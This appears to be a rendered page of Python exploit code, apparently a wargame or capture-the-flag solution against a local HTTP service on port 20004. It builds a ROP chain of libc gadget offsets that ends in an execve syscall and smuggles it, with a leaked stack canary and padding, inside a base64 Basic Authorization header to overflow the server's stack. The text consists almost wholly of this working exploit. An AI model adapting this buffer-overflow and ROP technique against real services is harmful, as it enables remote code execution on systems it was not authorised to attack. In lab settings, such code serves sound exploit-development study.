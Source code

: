 ```lang-bash line-numbers 
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += pack("<I", off + 0x001789d9) # @ .data + 25
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789ef) # @ .data + 47
        p += "AAAA" # padding
        p += pack("<I", off + 0x000328e0) # xor eax,eax ; ret
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x00018f4e) # pop ebx ; ret
        p += pack("<I", off + 0x001789c0) # @ .data
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789e3) # @ .data + 35
        p += "AAAA" # padding
        p += pack("<I", off + 0x00001a9e) # pop edx ; ret
        p += pack("<I", off + 0x001789ef) # @ .data + 47
        p += pack("<I", off + 0x000328e0) # xor eax,eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x00026722) # inc eax ; ret
        p += pack("<I", off + 0x0002dd35) # int 0x80
	credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + "B"*12 + ebx + "E"*12 + p))
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("localhost", 20004))
	request = "GET / HTTP/1.0\r\n"
	request += "Authorization: Basic {0}\r\n".format(credentials)
	request += "\n"
	s.send(request)
	s.close()

raw_input("[+] Attach GDB to server process and Press Enter to continue...")
credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + "B"*12 + ebx + "E"*12 + "DDDD"))
s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20004))
request = "GET / HTTP/1.0\r\n"
request += "Authorization: Basic {0}\r\n".format(credentials)
request += "\n"
s.send(request)
response = s.recv(1024)
s.close()
```
